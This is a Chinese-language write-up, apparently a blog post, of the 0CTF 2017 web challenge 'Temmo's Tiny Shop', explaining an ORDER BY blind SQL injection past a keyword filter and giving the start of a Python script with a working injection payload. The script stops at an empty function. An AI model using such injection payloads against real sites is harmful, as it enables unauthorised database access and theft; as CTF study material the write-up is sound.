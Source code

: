 ```yaml
---
title: 0ctf201 web部分writeup
date: 2017-03-21 13:55:12
tags:
- ctf
- Blogs
categories:
- Blogs
---
```



纪念下偷偷登上萌新榜第一的比赛，也实现了比赛前的愿望，0ctf争取不0分，rsctf争取高名次，:>

![image_1bbm7t6mv1lckjf7m4o10tq1s81g.png-31.5kB][1]
![image_1bbm7tqmjkb011vho2e19mg1j7mt.png-4.2kB][2]
![image_1bbm7umpc158d118d1elc3i71j6g1a.png-24.2kB][3]




# Temmo's Tiny Shop #

题目是个类似于小卖铺的站，最有趣的是刚开始的时候，这题进去是钱很多的，可以随便买，也可以看到hint
```
OK! Now I will give some hint: you can get flag by use `select flag from b7d8769d64997e392747dbad9cd450c4`
```

后来突然题目就改了，只有4000块了，买不了hint，很气...(看别人的wp听说admin是弱口令还是什么的，里面一百多万可以随便买...

逛逛整个站，有下面几个信息：

1、登录上去后，可以购买东西，购买东西可以退货，这个过程是不需要验证啊什么的，但是不存在竞争。

2、购买退货这里的逻辑里有个id，但是怎么测试都不对，可能是有intval吧

3、action是白名单，只要不是需要的那几个就会直接拦截，order是黑名单

4、不存在能被盲测出来的二次注入

那么问题很清晰了，orderby是最可能存在注入的地方，但是比较无情的是这里waf非常的迷，而且还有长度的限制，虽然我没踩这个坑，但是我觉得没拿到hint应该是注不了的（长度不够）

order 白名单黑名单都有，好像就\w可以。特殊符号跟中文符号也不行。还有对user,database关键词的检测。白名单:&,()0-9a-Z

但是可以通过left来进行like盲注，条件符合就按照name排列，不符合就按price排列（你需要买2个不同的东西）

有个关键点事关于盲注的，因为order这里是有长度限制的，长度又不够我们加函数来截断，所以只能用%做通配符来跑最后一位，脚本如下

```
import requests
import threading
import time
from random import Random
url = "http://202.120.7.197/"


cookie = {'PHPSESSID': 'qlqmjbq7uglcr0onm1lmm4ndg4'}
r=requests.get(url+'app.php?action=search&keyword=&order=if((select(left((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),3))like(0x2562)),name,price)', cookies=cookie)

err = r.text

s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

def check(payload):

```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i6r7eapfqxz18e7frsexxp6d/image_1bbm7t6mv1lckjf7m4o10tq1s81g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9cbjbavbdg59k7lbzdt882ct/image_1bbm7tqmjkb011vho2e19mg1j7mt.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fcsi2y6azh4w2cn1hi7vsaox/image_1bbm7umpc158d118d1elc3i71j6g1a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7iglrk439xnneps9zyt0bje8/image_1bbm81fi31ic413d1vkjuad4q1n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d7oo6ll6tzhoxhpi9s0ya4ge/image_1bbm867761jslt3s60i1punqj324.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0fo4y89aul236z6zeq20vzl1/image_1bbnj20hv1tirtiq1ec7vrc2k22h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hr86wmm3mehab6nubr7q2219/image_1bbnj670k1kjd1fih1khj1oegq6n2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ugwkm2dhr9wyfcpa0ohocu31/image_1bbnj81aj1i95ua2ea91c3s5rq3b.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wscz7k86wuyba78gi9ev4yc6/image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/571vkxvwy40jemssd8kccqry/image_1bbnm3785lrg1k0pe0iu4b8ij45.png